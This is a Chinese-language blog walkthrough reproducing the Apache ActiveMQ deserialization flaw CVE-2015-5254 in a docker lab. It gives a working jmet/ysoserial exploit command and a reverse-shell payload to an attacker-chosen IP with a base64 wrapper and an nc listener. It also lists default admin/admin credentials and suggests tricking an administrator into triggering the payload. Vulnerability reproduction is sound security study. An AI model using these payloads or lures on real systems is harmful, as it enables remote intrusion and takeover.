

# ActiveMQ 反序列化漏洞（CVE-2015-5254）复现 - Panisme - 博客园

> 原文：[`www.cnblogs.com/panisme/p/12531802.html`](https://www.cnblogs.com/panisme/p/12531802.html)

ActiveMQ 反序列化漏洞（CVE-2015-5254）

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持 Java 消息服务、集群、Spring Framework 等。

Apache ActiveMQ 5.13.0 之前 5.x 版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的 Java Message Service(JMS)ObjectMessage 对象利用该漏洞执行任意代码。

参考链接：

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
```

环境运行后，将监听 61616 和 8161 两个端口。其中 61616 是工作端口，消息在这个端口进行传递；8161 是 Web 管理页面端口。访问`http://target-ip:8161`即可看到 web 管理页面，不过这个漏洞理论上是不需要 web 的。


## 漏洞复现

漏洞利用过程如下：

1\. 构造（可以使用 ysoserial）可执行命令的序列化对象
2\. 作为一个消息，发送给目标 61616 端口
3\. 访问 web 管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/matthiaskaiser/jmet)进行漏洞利用。首先下载 jmet 的 jar 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）。

工具下载地址：
**wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar**

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME target-ip 61616
```


此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过`http://target-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

# ActiveMQ 后台管理地址
http://192.168.61.132:8161/admin/
默认账号：admin
默认密码：admin



点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success 已成功创建，说明漏洞利用成功：


将命令替换成弹 shell 语句再利用：
payload： bash -i >& /dev/tcp/my-ip/8888 0>&1

经测试以上 payload 未执行成功，需对该 payload 进行 base64 编码，绕过 java 检测机制
新 payload： bash -c {echo,payload 进行 base64 编码}|{base64,-d}|{bash,-i}

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,payload 进行 base64 编码}|{base64,-d}|{bash,-i}" -Yp ROME target-ip 61616

监听本地 8888 端口，查看消息触发命令执行
nc -l -p 8888


 移除漏洞环境：

```
docker-compose down --remove
```

值得注意的是，通过 web 管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。